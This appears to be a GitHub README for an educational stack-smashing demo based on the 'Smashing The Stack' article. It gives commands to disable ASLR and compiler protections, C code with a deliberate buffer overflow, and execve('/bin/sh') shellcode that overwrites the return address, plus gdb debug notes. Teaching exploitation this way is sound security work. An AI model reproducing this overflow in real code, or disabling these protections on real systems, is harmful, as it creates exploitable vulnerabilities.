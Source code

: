 stacksmashdemo -- a demostration to smash the stack
=======================================================

According to the article [Smashing The Stack For Fun And Profit](https://www-inst.eecs.berkeley.edu//~cs161/fa08/papers/stack_smashing.pdf), this vulnerable Program is created for exploiting.

The Linux system and the C/C++ compiler are all updated since 1996, the first year this article is published. 
I searched for [Smashing the Stack For Fun and Profit (Today)](https://travisf.net/smashing-the-stack-today), and get the new Linux and compiler switches as follows:

Prepare
-------

* OS : Ubuntu 18.04.3 LTS x64
* The operating system performs address space randomization (ASLR), which does not prevent buffer overflows,
but makes it much harder for them to result in a successful exploit. to disable this, run

        sudo sysctl -w kernel.randomize_va_space=0
*  The C compiler uses a security mechanism called "Stack Guard", which detects and prevents buffer overflows. I disabled it in the Makefile as follows, and all this parameters are defined in Makefile:

        -m32 : compile for 32-bit
        -fno-stack-protector : to disable stack canaries
        -z execstack : to disable NX bit protection, ensure the stack is executable 
        -D_FORTIFY_SOURCE=0 : to disable FORTIFY_SOURCE

The Program
-----------
Function main defines the shellcode, and function Smash performs the exploit of stack smash.
* shellcode : implements the assemble version of "execve ("/bin/sh",NULL)",
first prepare the string terminator for "/bin/sh", and then string "/bin/sh". push both 0(xorl %eax,%eax) and "/bin/sh" into stack, point %ebx to %esp, 0 for %eax. then push %eax, %ebx, move function code 0x0b to %al and call int $0x80 to invoke the system facilities of exec.
* adjust of stack : when debugging with gdb, I found that by adjust the size of szBuffer and offset for address of shellcode, the return address for Smash will be overwritten by the shellcode. the last 4 bytes will be the address for returning, and I point it to the begin of shellcode by cast the shellcode to int*.
* Smash : copy the shellcode to a small local variable szBuffer, and the last 4 bytes of the shellcode will occupy the returning address, so when memcpy finished, the %eip will point to the begin of the shellcode.

```c++
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#define SIZE_BUFFER_LOCAL 32
int Smash (char *pszInput,int nSize)
{
    char szBuffer[SIZE_BUFFER_LOCAL/2] = {0};
    memcpy (szBuffer,pszInput,nSize);
    return 0;
}
int main (int argc,char **argv)
{
    char shellcode[SIZE_BUFFER_LOCAL] = /*execve ("/bin/sh",NULL)*/
    "\x31\xc0"          /* xorl %eax,%eax */
    "\x50"              /* pushl %eax */
    "\x68""//sh"        /* pushl $0x68732f2f */
    "\x68""/bin"        /* pushl $0x6e69622f */
    "\x89\xe3"          /* movl %esp,%ebx */
    "\x50"              /* pushl %eax */
    "\x53"              /* pushl %ebx */
    "\xb0\x0b"          /* movb $0x0b,%al */
    "\xcd\x80"          /* int $0x80 */
    ;
    *((int*)(&shellcode[SIZE_BUFFER_LOCAL-4])) = (int)shellcode;/*To overwrite the returning address*/
    Smash (shellcode,SIZE_BUFFER_LOCAL);
    printf ("After calling Smash:%s\n",shellcode);
    return 0;
}
```

Run
---
* make
* ./stacksmashdemo


Limitations
-----------

* Only for 32 bit systems
* Only valid for Ubuntu 18.04.1 with gcc 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)
* For other environment, size of szBuffer and the following line maybe changed
```
    *((int*)(&shellcode[SIZE_BUFFER_LOCAL-4])) = (int)shellcode;
```

Debug
-----
* Before smash, the address of variable szBuffer is in $edx : 0xffffd0a0, and $esp : 0xffffd0c0
![img](beforesmash.png)

* After smash, the returning address(0xffffd0c0) is overwritten by 0xffffd0dc, the begin of the shellcode(shellcode) in main
![img](aftersmash.png)

* Stepping into the shellcode to inspect the executing of shellcode.
![img](shellcoderunning.png)

* Result : when running ./stacksmashdemo successfully, a shell will be created, instead of printing a message.
![img](result.png)
